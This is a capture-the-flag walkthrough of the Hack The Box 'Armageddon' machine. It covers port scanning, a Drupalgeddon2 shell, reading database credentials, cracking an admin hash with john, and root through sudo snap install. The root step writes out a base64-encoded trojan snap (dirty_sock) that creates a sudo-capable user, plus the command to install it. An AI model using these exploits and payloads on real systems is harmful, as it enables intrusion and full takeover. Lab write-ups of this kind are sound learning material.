



```
$sudo nmap -sS -sV 10.129.138.106
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```
## Foothold

Having a look on the website the [firefox extension Wappalyzer](https://addons.mozilla.org/de/firefox/addon/wappalyzer/) tells us, that there is Drupal 7 running. After some research we found out that this is vulnerable to [Drupalgeddon](https://github.com/dreadlocked/Drupalgeddon2).

.

We just clone the repository and run `ruby ./drupalggedon2.rb http://armageddon.htb` to get a shell.



We are now logged in as user `apache` without a lot of permissions.

## User

After some enumeration we found mysql credentials in `/var/www/html/sites/default/settings.php`.

```
database’ => drupal,
‘username’ => drupaluser,
‘password’ => CQHEy@9M*m23gBVj,
‘host’ => localhost,
‘port’ => 3306,
‘driver’ => mysql,
```

In the mysql database we can get the password hash of brucetherealadmin:
```
mysql drupal -u drupaluser -pCQHEy@9M*m23gBVj -e "SELECT * FROM users;"

uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
```

We use john the ripper with the rockyou wordlist to retrieve the password:

```bash
john hash.hash --wordlist=/home/kali/Desktop/rockyou.txt
```
```
┌──(kali㉿kali)-[~/Desktop/HTB_done/armageddon]
└─$ john hash.hash --show                                   
?:booboo

1 password hash cracked, 0 left
```

Now we can simply login to ssh with `ssh brucetherealadmin@armageddon.htb` and the password `booboo`


## Root

```
sudo -l

User brucetherealadmin may run the following
        commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
``` 

So brucetherealadmin can install snaps as root. There is a famous vulnerability in older versions of snap called [dirty_sock](https://github.com/initstring/dirty_sock). 

We don't need most of the scripts that are provided in the repository. We are only interested in the `TROJAN_SNAP` inside the `dirty_sockv2.py`.
So we create our malicious snap ourself like this:

```bash
python -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A" * 4256 + "=="' | base64 -d > exploit.snap
```

After that just install it with:
```
sudo snap install --dangerous --devmode exploit.snap
```

Now we created a new user `dirty_sock` with password `dirty_sock`. Just login `su dirty_sock` and run `sudo -i` to become root.

